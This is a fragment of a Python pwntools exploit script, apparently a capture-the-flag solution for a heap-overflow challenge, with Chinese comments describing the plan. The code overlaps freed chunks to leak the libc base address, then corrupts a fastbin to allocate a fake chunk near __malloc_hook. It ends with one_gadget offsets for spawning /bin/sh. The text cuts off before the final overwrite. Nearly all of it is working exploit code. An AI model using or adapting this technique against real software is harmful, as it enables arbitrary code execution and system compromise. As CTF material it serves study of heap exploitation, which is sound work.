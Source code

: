 ```python
def free(index):
    p.sendlineafter(b'Command: ', b'3')
    p.sendlineafter(b'Index: ', index)
    
def dump(index):
    p.sendlineafter(b'Command: ', b'4')
    p.sendlineafter(b'Index: ', index)
    p.recvline()
    return p.recvline()

"""
heap overflow
1. 泄漏libc基址
2. 修改libc中malloc_hook地址为one_gadget
"""

# Step1: 泄漏libc基址
# gdb.attach(p, 'b *$rebase(0x0000000000001142)')
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)

free(b'1')
free(b'2')

payload = flat(b'\x00'*0x18, 0x21, b'\x00'*0x18, 0x21, p8(0x80))
fill(b'0', len(payload), payload)

payload = flat(b'\x00'*0x18, 0x21)
fill(b'3', len(payload), payload)

allocate(0x10)
allocate(0x10)

payload = flat(b'\x00'*0x18, 0x91)
fill(b'3', len(payload), payload)

allocate(0x80)
free(b'4')

libc_addr = u64(dump(b'2')[:8].ljust(8, b'\x00')) - 0x3c4b78
success(hex(libc_addr))


# Step2: 劫持malloc_hook
fake_chunk = libc_addr + 0x3c4aed
allocate(0x60)
free(b'4')
payload = flat(fake_chunk)
fill(b'2', len(payload), payload)
allocate(0x60)
allocate(0x60)
"""
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

```